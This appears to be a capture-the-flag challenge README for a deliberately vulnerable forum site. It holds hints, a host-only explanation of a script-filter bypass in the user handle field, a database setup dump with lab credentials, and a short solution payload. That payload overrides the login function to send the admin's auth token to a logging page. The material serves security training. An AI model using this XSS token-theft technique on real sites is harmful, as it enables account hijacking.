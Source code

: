 # HackTheStack - Bad Authentiation
### John Lee (2016)

# For the challengers
This challenge is for you to login as an admin for one of the hottest forum sites to come out since Yahoo! Answers.
In the developers' haste to get the product out, they missed some vital code to keep some nasty ne'er-do-wells from getting access to their site.

However, the creators aren't completely forgetful, there are some roadblocks in the way to do this. Don't be discouraged! Most of them are still insecure if you stretch the limits. (But don't stretch too much, the website might break because of you.)

There's a rumor that one of the admins have been logging in quite often. Login as them and extract a super-secret admin code that they use for everything. Seriously. They never took `ECE 404/CS 426`.

Present the code to one of the hosts to win!

Resources: There's a file called `Log.php` that you can pass GET data to. Opening the page will show the last request made to it. To post data to it, call `Log.php?data={INSERT DATA HERE}`

## Some hints *[only show if necessary]*
- It is not SQL injection.
- Use XSS
- Have them look at the 'recent users' area.
<s>- If they are having problems with the max entered size, have them upload a script onto https://gist.github.com/ and use the RAW link as their created user's handle.
- Getting around CORS
  - Try creating an \<img> with the data included as a GET parameter in the `src`.</s>
  
# Hosts Only . . .
  
## Detailed Problem
The website is supposed to emulate a forum. Most forms of auth are secure *except* the `handle` which checks for `<script>` but not `<script src= . . .`. The challenger is supposed to inject some JS that replaces the login function with one that grabs the token or password. 

<s>### Recommendation at this point
My BIGGEST recommendation is to use https://gist.github.com/. Once there they can make something called `c.js` and put some arbituary JS code in it. once there, use the **RAW** link as their handle and voila! Injected JS that they **CAN EDIT ACTIVELY**. This way if they break the site they can just change their code here to revert it.</s>

Just have them inject code like the solution below.

Once grabbed, it will then send it to a page that listens for any request and grabs the parameters. In this case they will send it to `Log.php`. Since it's local they won't need to do anything fancy. Just a jQuery GET request.
the request will look like this `Log.php?data=whateveryouwantittobeandforittolog`.
To get the last GET request, navigate to `Log.php` without the data tag to see it. 

Once received, they emulate that same request on the web page and get the new page, an admin page that contains the number. It only works on verified login, so they can't bypass this any other way. 



# Setup

Import the following SQL to setup
```
# ************************************************************
# Sequel Pro SQL dump
# Version 4541
#
# http://www.sequelpro.com/
# https://github.com/sequelpro/sequelpro
#
# Host: 127.0.0.1 (MySQL 5.5.46-0ubuntu0.14.04.2)
# Database: challenge
# Generation Time: 2016-12-09 20:33:41 +0000
# ************************************************************


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;


# Dump of table login
# ------------------------------------------------------------

DROP TABLE IF EXISTS `login`;

CREATE TABLE `login` (
  `username` varchar(30) NOT NULL DEFAULT '',
  `password` text NOT NULL,
  `authToken` text NOT NULL,
  `handle` varchar(200) NOT NULL DEFAULT '',
  `created` datetime NOT NULL,
  PRIMARY KEY (`username`)
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;

INSERT INTO `login` (`username`, `password`, `authToken`, `handle`, `created`)
VALUES
	('thebestadmin','$2y$10$129139293012312093210u1xpEeTfbT5Yeixf3KSdSAv/BgFs4Qsq','7da7e821a5b8ee25e8f42b56d573f0cc','notyourbusiness','2016-12-09 19:36:34');

/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;



/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
```

There needs to exist a `login` user with password: `Password1` that has the following permissions: `SELECT, INSERT, UPDATE`
to the `login` table, which exists in the `challenge` database.

The above script includes the login credentials so you'll be good.

As for the cron. go to the `cronadmin` folder and npm install. Have the cron run `node index.js` and ensure it works. If it doesn't, login as the admin to get an authtoken logged by going into the website and logging in as `thebestadmin` `securepassword1`. Once there it should create a file named `authTokenStorage.txt` which contains the authToken (I'm lazy, okay?)

# Solution Script
There exists `Log.php` which will aid them in repeating the last get request with a `data` parameter in it. 
```
authTokenLogin = function(authToken) {
  $.get( "log.php?data=" + authToken, function( data ) {
  });
}
```
Using this will replace the authToken login and allow the user to get the data by going to `directory/log.php`

Once that's done, they make the same request that authTokenLogin had previously to login as the admin!
